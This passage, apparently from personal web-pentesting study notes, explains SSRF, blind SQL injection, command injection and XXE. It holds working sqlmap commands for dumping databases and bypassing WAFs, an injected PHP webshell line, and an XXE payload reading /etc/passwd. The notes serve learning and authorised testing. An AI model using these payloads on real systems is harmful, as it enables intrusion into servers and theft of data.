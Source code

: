 - **Server-Side Request Forgery:** Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing. In typical SSRF examples, the attacker might cause the server to make a connection back to itself, or to other web-based services within the organization's infrastructure, or to external third-party systems. Domains like `localtest.me` are really useful because they resolve every subdomain to `127.0.0.1` and can help to bypass filters
- **Sql injection:** There is a type of sql injection that is blind. That is, database or info errors do not come out per screen and you need to use binary logic (true/false) and put that if a user exists, wait x seconds. `sqlmap` automates all of this (Some cheat sheets: [sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list) and [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)):
```console
Anthares101@kali:~$ sqlmap -u URL --headers "Cookie: ..."
# --dump-all Dumpea todas las tablas de todas las bases de datos
# Instead of -u i prefer to use -r to specify an objective

Anthares101@kali:~$ sqlmap --batch --dbs -r post_request.txt
# With --dbs sqlmap extract all system databases
# With -r you can specify a POST example to the page and sqlmap will get the data it needs
# The --batch option tell the process to select always the defaul options instead of asking

Anthares101@kali:~$ sqlmap --current-db --batch -r post_request.txt
# Gets the current databse name

Anthares101@kali:~$ sqlmap -D DB --tables --batch -r post_request.txt
# Gets all the tables of a certain database

Anthares101@kali:~$ sqlmap -D DB -T TABLE --columns -r post_request.txt
# Gets the information of all the columns  of a certain table

Anthares101@kali:~$ sqlmap -D DB -T TABLE --dump --batch -r post_request.txt
# Copy all the information of a certain table in a database

Anthares101@kali:~$ sqlmap -D DB --sql-query "select id,password,...,... from TABLE where COLUMN like PATTERN" -r post_request.txt
# Extracts the result of a specific query to a known table

# The parameter --tamper=space2comment allows you to try to bypass certain firewalls (WAF)
```
- **RCE (Remote Command Execution):** If you are putting the code directly: `shell_exec('ping 8.8.8.8');` being the ip what the user enters, if instead we put `;ls`, although `ping` prints an error the command `ls` is executed. Once the vulnerability is detected we could run a WebShell: `;echo'<?php echo shell_exec(s_GET["cmd"]); ?>' > shell1.php`. If we go to `shell1.php`, with the parameter of the url `cmd` we can execute the commands that we want
- **XXE (XML External Entity):** Abuses the XML features to interact with an application backend and for example read system files. A payload could be:
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
- **OWASP methodology for testing web security:** OWASP broken web application (To practice attacking pages and stuff)
